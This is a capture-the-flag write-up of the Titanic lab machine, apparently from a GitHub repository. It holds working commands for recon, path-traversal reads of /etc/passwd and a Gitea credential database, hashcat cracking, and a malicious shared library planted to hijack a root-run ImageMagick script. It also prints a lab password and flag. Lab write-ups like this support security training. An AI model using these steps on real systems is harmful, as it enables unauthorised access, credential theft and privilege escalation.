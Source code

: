 # Titanic Lab-Total time 3 days

---

## The first and half of second day I used to recon the machine and website and scripts to use, rest of second day and third i actively looked around the machine for the flags and scripts to use to escalate privileges.

### MARKED AS EASY BUT IT WAS NOT FOR SOMEONE WITH LIMITED KNOWLEDGE

First step was to run nmap scan

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Results:

![image (1).png](./images/image_(1).png)

I then ran port 80 scan to get more data on it

```bash
nmap -sV -p 80 10.10.11.55 -T5
```

![image (2).png](./images/image_(2).png)


I added the IP address to the host list

```bash
sudo nano /etc/hosts/
```

![image (3).png](./images/image_(3).png)


after doing that i ran gobuster scan with common wordlist

```bash
gobuster dir -u http://titanic.htb/ -w /usr/share/wordlists/dirb/common.txt
```

![image (4).png](./images/image_(4).png)


I visited the website and clicked around, i booked the ticket while checking browser web developer network section and noticed the the address that redirects to the download

![image (5).png](./images/image_(5).png)


After numerous types of research I found something called LFI (Local File Intrusion)

I researched common commands used with it and I used #curl

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

![image (6).png](./images/image_(6).png)


I recorded possible users like root, man, nobody, developer, _laurel

I then tried to check hosts

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/hosts"
```

Found a wildcard for the domain called dev.titanic.htb

![image (7).png](./images/image_(7).png)


![image (8).png](./images/image_(8).png)

I added the domain to the host list

![image (9).png](./images/image_(9).png)


And i ran gobuster again with the new domain added

![image (10).png](./images/image_(10).png)


I used curl to get data from admin, developer, administrator

and research showed that they are using gitea to host the site and found their repo

Upon reviewing the repo I found they were using #MYSQLas database

![image (11).png](./images/image_(11).png)


and their password

![image (12).png](./images/image_(12).png)


after researching how gitea sets up in a directory i tried with the previously recorded users which only developer worked.

```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

This saved the file with their whole database

I used

```bash
sqlite3 gitea.db
#once opened i ran.tables
```

![image (13).png](./images/image_(13).png)


I researched how to traverse database and tried multiple commands until i found the working one related to users

```bash
SELECT * FROM user;
```

This showed me the hashed credentials for users

![image (14).png](./images/image_(14).png)


Since we were working in developer i saved developer’s hash in a hash.txt file

I used AI translate the developer hash into sha256 I then used #hashcat

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile cracked.txt
```

This process took around 2-3 hours I successfully got access to the password for developer

![image (15).png](./images/image_(15).png)


developer:25282528


using ls i found file named user.txt which contained the flag for user

![image.png](./images/image.png)


After several minutes traversing around and looking around for root flag i found the root.txt file in tmp folder but i also figured out that developer did not have sudo power but in my search i found an interesting file that is running a script using magick, after investigating further I found out that Imagemagick was used to escalate privilages and did more research

![image (16).png](./images/image_(16).png)


Researching around i found a script that was used with magick i just modified the directories i needed

```bash
cd /tmp
gcc -shared -fPIC -o libxcb.so.1 -x c - << 'EOF'#include <stdlib.h>__attribute__((constructor)) void init() {    system("cp /root/root.txt /tmp/root.txt; chmod 644 /tmp/root.txt;");}EOF
```

This command compiles a C program into a shared object (library) named libxcb.so.1.

- **shared**: Instructs gcc to create a shared library (a .so file) rather than an executable.
- **fPIC**: Generates position-independent code, which is required for shared libraries to work correctly across different memory addresses.
- **o libxcb.so.1**: Specifies the output file name as libxcb.so.1.
- **x c**: Tells gcc to treat the input as C code, even though it’s not read from a file with a .c extension.
- **<< ‘EOF’**: Uses a here-document to provide the C code directly from the command line, ending when EOF is encountered.

```bash
mv /tmp/libxcb.so.1 /opt/app/static/assets/images/
```

Moves the compiled libxcb.so.1 from /tmp to /opt/app/static/assets/images/, the working directory of the identify_images.sh script.

By placing libxcb.so.1 in /opt/app/static/assets/images/, you increase the likelihood that ImageMagick loads our malicious library instead of the legitimate libxcb.so.1, triggering the payload.

```bash
cat /etc/crontab
```

Checking /etc/crontab (and possibly /etc/cron.*/*) helps confirm whether identify_images.sh is scheduled to run automatically as root via a cron job. For example, a line like */5*  * * * root /opt/scripts/identify_images.sh would indicate the script runs every 5 minutes as root.

```bash
cat /tmp/root.txt
```

root password : 2a523b982f4c3b11feb62d868bf67fb4